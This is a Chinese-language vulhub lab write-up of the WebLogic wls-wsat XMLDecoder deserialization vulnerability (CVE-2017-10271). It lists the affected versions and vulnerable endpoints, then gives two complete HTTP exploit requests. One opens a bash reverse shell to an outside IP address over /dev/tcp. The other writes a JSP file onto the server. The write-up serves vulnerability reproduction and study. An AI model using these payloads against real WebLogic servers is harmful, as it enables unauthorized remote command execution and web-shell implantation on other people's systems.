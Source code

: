 # Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）

###### by ADummy

### 0x00利用路线

​			burpsuite发包--->命令执行

### 0x01漏洞介绍			

​			Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令

##### 影响版本

```
10.3.6.0
12.1.3.0.0
12.2.1.1.0
```

##### 漏洞地址

/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType1

### 0x02漏洞复现

#### payload

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.0.141/8888 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![Weblogic_XMLDecoder_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_XMLDecoder_反序列化漏洞_1.jpg)

反弹shell

![Weblogic_XMLDecoder_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_XMLDecoder_反序列化漏洞_2.jpg)

写入webshell（访问：`http://your-ip:7001/bea_wls_internal/test.jsp`）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

写入webshell

![Weblogic_XMLDecoder_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_XMLDecoder_反序列化漏洞_3.jpg)

### 0x03参考资料

https://blog.csdn.net/yumengzth/article/details/97522783